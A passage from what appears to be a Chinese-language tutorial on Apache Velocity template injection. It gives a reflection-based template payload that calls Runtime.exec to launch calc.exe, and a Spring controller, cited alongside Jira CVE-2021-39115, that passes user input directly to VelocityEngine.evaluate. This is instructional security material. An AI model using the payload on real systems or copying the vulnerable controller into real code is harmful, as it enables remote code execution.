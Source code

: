 ```java
        return w.toString();
    }
```
index.vm 内容
```java
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe")
```
![](img/14-57-57.png)  
#### 动态渲染字符串
第二种是使用了VelocityEngine.evaluate的动态渲染方法，但渲染的字符串由攻击者可控。案例如Jira CVE-2021-39115模板注入漏洞。  
```java
    @RequestMapping("/customTemplate")
    public String template(@RequestParam String tempalte){
        VelocityEngine velocityEngine = new VelocityEngine();
        velocityEngine.setProperty(RuntimeConstants.RESOURCE_LOADER,"classpath");
        velocityEngine.setProperty("classpath.resource.loader.class", ClasspathResourceLoader.class.getName());
        velocityEngine.init();
        VelocityContext context = new VelocityContext();
        context.put("name", "Velocity");
        context.put("project", "Jakarta");
        StringWriter w = new StringWriter();
        velocityEngine.evaluate(context,w,"test",tempalte);
        return w.toString();
    }
```